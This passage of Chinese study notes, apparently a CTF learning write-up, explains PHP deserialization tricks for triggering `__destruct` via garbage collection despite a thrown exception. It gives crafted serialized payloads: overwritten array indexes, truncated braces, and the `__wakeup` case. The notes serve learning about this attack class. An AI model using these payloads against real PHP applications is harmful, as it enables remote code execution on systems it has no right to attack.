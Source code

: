     这个思路很简单，就是调用errorr的`__destruct`的方法。但`__destruct`方法是在该对象被回收时调用，而exception会中断该进程对该对象的销毁，无法调用`__destruct`，于是需要绕过`throw new Exception("错误");`,于是利用GC回收来调用。

    *   利用GC回收——数组回收

        需要反序列化一个数组，然后再利用第一个索引，来触发GC

        ```php
        $a = new errorr();
        $b = serialize(array($a,$a));
        ```

        也可以这样

        ```php
        $a = new errorr(); 
        $n = NULL;
        $m = array(0=>$a,1=>$n);
        echo serialize($m);
        //a:2:{i:0;O:6:"errorr":1:{s:3:"rce";N;}i:1;N;}
        //将其修改为a:2:{i:0;O:6:"errorr":1:{s:3:"rce";N;}i:0;N;}   将第二个索引值换成0,应该是覆盖索引，从而类没有被赋值
        ```

    *   利用GC回收——破坏序列化结构

        ```php
        $b = new errorr;
        echo serialize($b);
        //O:6:"errorr":1:{s:3:"rce";N;}
        //O:6:"errorr":1:{s:3:"rce";N;   ，将末尾的}去掉，从而返回为空，直接进入回收中，但反序列化的结构在回收前仍存在，具体如何实现的还没弄清
        ```

    *   利用GC回收——`__wakeup`方法

        在学习这块时，发现2021年浙江省赛决赛的safepop中，发现不用绕过仍然可以有`__destruct`,然后和学长讨论后，发现关键在于`__wakaup`，当反序列化时存在`__wakeup()`时，会将其在反序列完成后直接进入回收中，会赋值给变量一个空数组；具体怎么实现的，脑子不够用

        ```php
        <?php
        //highlight_file(__FILE__);
        class errorr{
        public $rce;
        public function __destruct(){
            echo 'this is destruct\n';
            echo 'successful\n';
        }
        public function __wakeup(){
            $this->func = '';
            echo("Don't serialize me");
        }
        }
        //$b = new errorr;
        //echo serialize($b);
        $A = unserialize('a:2:{i:0;O:6:"errorr":1:{s:3:"rce";N;}i:0;N;}');
        var_dump($A);
        /*array(1) {
          [0] =>
          NULL
        }*/
        throw new Exception("错误");
        ```
